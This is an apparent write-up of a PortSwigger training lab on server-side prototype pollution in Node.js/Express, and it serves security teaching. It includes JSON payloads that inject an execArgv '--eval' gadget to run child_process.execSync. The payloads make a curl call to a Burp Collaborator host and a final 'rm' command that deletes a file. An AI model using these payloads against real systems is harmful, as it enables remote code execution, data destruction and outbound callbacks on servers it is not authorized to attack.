








# Remote code execution via server-side prototype pollution

## This lab is built on Node.js and the Express framework. It is vulnerable to server-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution) because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

___

step 1

login to account, you will see Billing and Delivery Address click submit
you will get `/my-account/change-address`
send to repeater


step 2

send POST/GET  request  to access `/admin`



step 3

open admin panel run maintenance jobs
you will see both task completed




step 4

add a new property to the JSON with the name `__proto__`, containing an object with a `json spaces` property

```json
"__proto__": { 
"json spaces":10 
}
```



step 5

Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process.
Use this to call the `execSync()` sink, passing in a command that triggers an interaction with the public Burp Collaborator server.

payload_example:
```
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')" 
	] 
}
```

burp collaborator  url `59c8tszz0lolf2z00h8wl6mvhmndb4zt.oastify.com`

#payload_child_process
```json
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('curl https://59c8tszz0lolf2z00h8wl6mvhmndb4zt.oastify.com')" 
	] 
}
```




step 6

go to the admin panel and trigger the maintenance jobs again.
you have received several DNS interactions




step 7
replace the `curl` command with a command for deleting Carlos's file
final payload 

```json
"__proto__": { 
"execArgv":[ 
"--eval=require('child_process').execSync('rm /home/carlos/morale.txt')" 
	] 
}
```



step 8


go to the admin panel and trigger the maintenance jobs again.
this time one of the job not completed  and you lab will solved


